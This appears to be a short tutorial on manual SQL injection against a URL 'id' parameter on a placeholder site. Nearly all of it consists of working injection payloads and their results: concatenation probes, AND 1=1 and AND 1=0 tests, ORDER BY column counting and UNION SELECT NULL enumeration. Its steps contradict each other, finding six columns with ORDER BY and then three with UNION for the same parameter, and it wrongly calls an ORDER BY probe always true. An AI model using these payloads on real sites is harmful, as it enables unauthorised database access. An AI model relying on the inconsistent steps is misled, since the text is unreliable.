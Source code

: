 In the process of finding SQL on the desired website, we must look for pages and forums that we must enter, 

or for example, by clicking on an icon or item, a new section will open for us.

For example, by clicking on an item, a GET request is sent to the origin of the website, but the id parameter is added to the URL and the value 13 is requested.

    http://target.tld/product.php?id=13

In order to make sure that this id parameter is related to the DBMS, we test different values ​​in the id input value.

For example, we have already tested and we know that we have a value for id=18.

so => id=13'+'5  and URL endoce it: id = 13'%2b'5

If it works and the output of parameter id=18 is displayed, you can test other inputs as well


another query: 

    ?id=13'AND 1=1 %23
    ?id=13'AND 1=0 %23
    ?id=13' order by 1 %23    => always true query


You can find the number of columns with order by:

    ?id=13'order by 10 %23

We will send this request if we don't get a response, that means the number of columns is less than 10 Now we decrease one by one until we get the response on page 13 and find the number of columns.

    ?id=13'order by 9 %23 => 500
    ?id=13'order by 8 %23 => 500
    ?id=13'order by 7 %23 => 500 
    ?id=13'order by 6 %23 => 200 , the number of column=6

UNION is used to agree two queries. You can find the number of columns using UNION

    ?id=13'UNION SELECT NULL-- -            => ERROR!
    ?id=13'UNION SELECT NULL,NULL-- -       => ERROR!
    ?id=13'UNION SELECT NULL,NULL,NULL-- -  => No Error, so the number of columns is 3


    


    
    
    
